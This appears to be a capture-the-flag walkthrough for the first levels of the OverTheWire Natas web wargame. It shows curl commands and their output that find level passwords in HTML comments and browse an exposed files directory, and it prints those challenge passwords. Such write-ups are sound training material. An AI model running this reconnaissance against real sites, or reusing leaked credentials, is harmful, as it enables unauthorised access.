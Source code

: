 -- Natas Challenges --

# Level 0:
Just read the html using curl and grepping the password:

```
abs@MacBookPro ~ % curl http://natas0.natas.labs.overthewire.org -u natas0:natas0 -s | grep password
You can find the password for the next level on this page.
<!--The password for natas1 is 0nzCigAq7t2iALyvU9xcHlYN4MlkIwlq -->
```


# Level 0 -> 1:

Using the cred from the prev level:
```
abs@MacBookPro ~ % curl http://natas1.natas.labs.overthewire.org -u natas1:0nzCigAq7t2iALyvU9xcHlYN4MlkIwlq -s | grep pass
<script>var wechallinfo = { "level": "natas1", "pass": "0nzCigAq7t2iALyvU9xcHlYN4MlkIwlq" };</script></head>
You can find the password for the
<!--The password for natas2 is TguMNxKo1DSa1tujBLuZJnDUlCcUAPlI -->
```


# Level 1 -> 2:
```
abs@MacBookPro ~ % curl http://natas2.natas.labs.overthewire.org -u natas2:TguMNxKo1DSa1tujBLuZJnDUlCcUAPlI               
...
<body>
<h1>natas2</h1>
<div id="content">
There is nothing on this page
<img src="files/pixel.png">
</div>
</body></html>
```

```
abs@MacBookPro ~ % curl http://natas2.natas.labs.overthewire.org/files/ -u natas2:TguMNxKo1DSa1tujBLuZJnDUlCcUAPlI -s | grep href 
   <tr><th valign="top"><img src="/icons/blank.gif" alt="[ICO]"></th><th><a href="?C=N;O=D">Name</a></th><th><a href="?C=M;O=A">Last modified</a></th><th><a href="?C=S;O=A">Size</a></th><th><a href="?C=D;O=A">Description</a></th></tr>
<tr><td valign="top"><img src="/icons/back.gif" alt="[PARENTDIR]"></td><td><a href="/">Parent Directory</a></td><td>&nbsp;</td><td align="right">  - </td><td>&nbsp;</td></tr>
<tr><td valign="top"><img src="/icons/image2.gif" alt="[IMG]"></td><td><a href="pixel.png">pixel.png</a></td><td align="right">2025-08-15 13:06  </td><td align="right">303 </td><td>&nbsp;</td></tr>
<tr><td valign="top"><img src="/icons/text.gif" alt="[TXT]"></td><td><a href="users.txt">users.txt</a></td><td align="right">2025-08-15 13:06  </td><td align="right">145 </td><td>&nbsp;</td></tr>
```
